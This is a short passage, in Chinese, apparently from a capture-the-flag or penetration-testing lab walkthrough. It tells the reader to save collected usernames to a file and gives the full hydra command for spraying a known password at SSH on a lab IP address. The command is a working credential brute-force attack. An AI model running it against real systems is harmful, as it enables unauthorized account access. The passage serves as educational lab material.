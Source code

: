 ![](./pic/20.jpg)

把这些用户名，保存在`kali`中的`user.txt`文件中，然后使用`hydra`针对密码`4b3l4rd0fru705`进行爆破

```shell
hydra -L user.txt -p 4b3l4rd0fru705 192.168.10.12 ssh
```

![](./pic/21.jpg)

## grep妙用与编码处理
